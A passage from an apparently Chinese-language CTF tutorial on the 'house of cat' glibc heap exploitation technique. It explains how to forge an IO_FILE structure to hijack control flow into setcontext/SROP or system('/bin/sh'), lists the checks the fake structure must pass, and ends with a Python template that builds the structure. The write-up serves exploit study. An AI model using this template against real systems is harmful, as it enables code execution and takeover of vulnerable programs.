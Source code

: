 可以看到这是一个堆地址，而实际上此时rdi就是伪造的IO结构体的地址，即**之前__IO_wfile_seekoff函数传入那个fp**，也是可控的。

在造成任意地址写一个堆地址的基础上，这里的寄存器rdi（fake_IO的地址）、rax和rdx都是我们可以控制的，在**开启沙箱**的情况下，假如把最后调用的**[rax + 0x18]设置为setcontext，把rdx设置为可控的堆地址，就能执行srop来读取flag**；如果**未开启沙箱**，则只需把**最后调用的[rax + 0x18]设置为system函数，把fake_IO的头部写入/bin/sh字符串**，就可执行system("/bin/sh")

#### fake_IO结构体需要绕过的检测

```c
_wide_data->_IO_read_ptr ！= _wide_data->_IO_read_end
_wide_data->_IO_write_ptr > _wide_data->_IO_write_base
/*如果_wide_data=fake_io_addr+0x30，其实也就是fp->_IO_save_base < f->_IO_backup_base
fp->_lock是一个可写地址（堆地址libc中的可写地址）*/
```

#### 攻击流程

![攻击流程图](img/article/house_of_cat/959842_JDJKTRK7GJUEUFR.png)

#### 模板

house of cat的模板，原理参照上图。伪造IO结构体时只需修改**fake_io_addr**地址，**_IO_save_end**为想要调用的函数，**_IO_backup_base**为执行函数时的rdx，以及修改_flags为执行函数时的rdi;FSOP和利用__malloc_assert触发house of cat的情况不同，需要具体问题具体调整（FSOP需将vtable改为IO_wfile_jumps+0x30）

```python
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```
